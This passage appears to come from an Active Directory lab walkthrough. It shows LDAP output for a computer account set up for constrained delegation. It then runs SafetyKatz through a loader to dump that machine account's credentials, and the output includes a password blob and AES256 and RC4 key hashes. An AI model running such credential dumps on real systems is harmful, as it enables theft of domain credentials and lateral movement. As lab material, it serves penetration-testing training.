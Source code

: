 ```
instancetype                  : 4
useraccountcontrol            : WORKSTATION_TRUST_ACCOUNT, TRUSTED_TO_AUTH_FOR_DELEGATION📌
objectguid                    : 321b38f3-2d61-4b7d-b3f0-9d8b8c94b266
operatingsystemversion        : 10.0 (17763)
lastlogoff                    : 12/31/1600 4:00:00 PM
msds-allowedtodelegateto📌    : {CIFS📌/mgmtsrv🖥️.tech.finance.corp, CIFS/mgmtsrv}
objectcategory                : CN=Computer,CN=Schema,CN=Configuration,DC=finance,DC=corp
dscorepropagationdata         : {2/4/2022 1:16:34 PM, 1/1/1601 12:00:01 AM}
serviceprincipalname          : {TERMSRV/STUDVM, TERMSRV/studvm.tech.finance.corp, WSMAN/studvm, WSMAN/studvm.tech.finance.corp...}
usncreated                    : 12921
usnchanged                    : 65667
lastlogon                     : 3/11/2025 8:52:57 AM
badpwdcount                   : 0
cn                            : STUDVM
msds-supportedencryptiontypes : 28
objectsid                     : S-1-5-21-1325336202-3661212667-302732393-1104
primarygroupid                : 515
iscriticalsystemobject        : False
name                          : STUDVM
dnshostname                   : studvm.tech.finance.corp

[SNIP]
```

- **Extract the Delegator Server AES Encryption Key Hash**

![studvm | studentuser #>](https://custom-icon-badges.demolab.com/badge/studvm-studentuser%20[%23>]-64b5f6?logo=windows11&logoColor=white)

`C:\AD\Tools\Loader.exe -path C:\AD\Tools\SafetyKatz.exe -args "sekurlsa::evasive-keys" "exit"`:
```
[SNIP]

Authentication Id : 0 ; 999 (00000000:000003e7)
Session           : UndefinedLogonType from 0
User Name         : STUDVM$🖥️
Domain            : TECH
Logon Server      : (null)
Logon Time        : 3/11/2025 5:54:44 AM
SID               : S-1-5-18

         * Username : studvm$
         * Domain   : TECH.FINANCE.CORP
         * Password : 10 8b c6 de dc 62 e8 c7 98 35 52 d0 87 32 9c c4 35 6e f8 8b e4 33 50 a7 12 68 43 02 13 6a bb 4a 74 e3 b6 2c 1e db ad 93 61 18 17 08 09 89 c1 64 30 fa 85 3b 50 76 2b df 9b 11 d8 20 4f 23 a2 c4 17 db 43 62 54 c2 0b 0e d9 72 b0 de 2e 9f dd e9 96 63 4f 09 12 84 77 f6 0e 6c 13 86 93 54 8c 77 b2 5d ec b3 7a bb 99 3b 2e 06 b9 00 39 44 d4 c7 3b 09 2d 7a 7d 1c 01 26 bf cd 22 45 43 5a 3d b5 58 95 fe f1 4f 38 c6 86 48 eb 44 86 cc bd 43 ce 82 b1 4e 7b a2 fd 09 fb 87 d4 10 f6 47 0e c0 b3 b1 2b 4a f6 e7 32 c4 03 8a fb 58 25 8a 40 46 8e e1 bc f8 8d 0f f8 a3 fa 12 1f 0d c0 58 f8 88 88 53 bf 1e a1 4d 29 de d0 b4 96 87 de 64 02 d4 92 8f c3 e4 36 f3 93 b1 38 2e 68 6f 4b 1d fb 9e 2f 10 9c 72 22 8d a6 5b d8 4d df 7a d6 f1 06 9f 4c
         * Key List :
           aes256_hmac       7f2a3239887475600fcc8595732fa9fd9756a3042254baba6c7600560a1c5eb6🔑
           rc4_hmac_nt       e5c5fa4934a2a058fb61bf3a143d4050
           rc4_hmac_old      e5c5fa4934a2a058fb61bf3a143d4050
           rc4_md4           e5c5fa4934a2a058fb61bf3a143d4050
           rc4_hmac_nt_exp   e5c5fa4934a2a058fb61bf3a143d4050
           rc4_hmac_old_exp  e5c5fa4934a2a058fb61bf3a143d4050

[SNIP]
```
